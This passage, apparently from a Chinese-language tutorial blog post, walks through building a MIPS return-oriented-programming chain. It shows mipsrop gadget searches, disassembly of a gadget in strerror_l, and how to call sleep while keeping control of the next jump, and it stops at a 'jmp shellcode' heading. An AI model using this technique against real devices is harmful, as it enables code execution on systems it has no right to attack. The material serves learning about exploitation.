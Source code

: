```
|  0x00133888  |  move $t9,$a1                                        |  jr    $a1                             |
|  0x0013733C  |  move $t9,$a1                                        |  jr    $a1                             |
|  0x00137354  |  move $t9,$a1                                        |  jr    $a1                             |
|  0x00137CDC  |  move $t9,$a1                                        |  jr    $a1                             |
|  0x00137CF4  |  move $t9,$a1                                        |  jr    $a1                             |
|  0x00139BFC  |  move $t9,$s4                                        |  jr    $s4                             |
----------------------------------------------------------------------------------------------------------------
Found 20 matching gadgets
```
如果没有合适的，我们可以尝试找在一些 "*dir" 的函数结尾来查找，有没有合适的，例如我在 readdir64 函数的末尾发现如下 gadget
![image-20201029161619764](https://sw-blog.oss-cn-hongkong.aliyuncs.com/img/image-20201029161619764.png)

这样我们就能控制 s2 寄存器也能控制 PC，下一步就是跳到 sleep, 但是单纯的跳到 sleep 是不够的，同时我们要保证执行完 sleep 后能跳到下一个 gadget ，所以我们还需要一个既能 执行 sleep 又能控制下一个 PC 地址的 gadget
看了眼寄存器，此时 我们还能控制的还挺多，例如我这里找 $a3 的寄存器
```
Python>mipsrop.find("mov $t9, $s3")
----------------------------------------------------------------------------------------------------------------
|  Address     |  Action                                              |  Control Jump                          |
----------------------------------------------------------------------------------------------------------------
|  0x0001CE80  |  move $t9,$s3                                        |  jalr  $s3                             |
..........
|  0x000949EC  |  move $t9,$s3                                        |  jalr  $s3                             |
....
```
通过这个 gadget 我们先跳到 s3 的寄存器执行 sleep ，再通过控制的 ra 寄存器进行下一步操作


```
.text:000949EC                 move    $t9, $s3
.text:000949F0                 jalr    $t9 ; uselocale
.text:000949F4                 move    $s0, $v0
.text:000949F8
.text:000949F8 loc_949F8:                               # CODE XREF: strerror_l+15C↓j
.text:000949F8                 lw      $ra, 0x34($sp)
.text:000949FC                 move    $v0, $s0
.text:00094A00                 lw      $s3, 0x24+var_sC($sp)
.text:00094A04                 lw      $s2, 0x24+var_s8($sp)
.text:00094A08                 lw      $s1, 0x24+var_s4($sp)
.text:00094A0C                 lw      $s0, 0x24+var_s0($sp)
.text:00094A10                 jr      $ra
.text:00094A14                 addiu   $sp, 0x38
```
通过这个 gadget 我们先跳到 s3 的寄存器执行 sleep ，再通过控制的 ra 寄存器进行下一步操作
#### 2. jmp shellcode
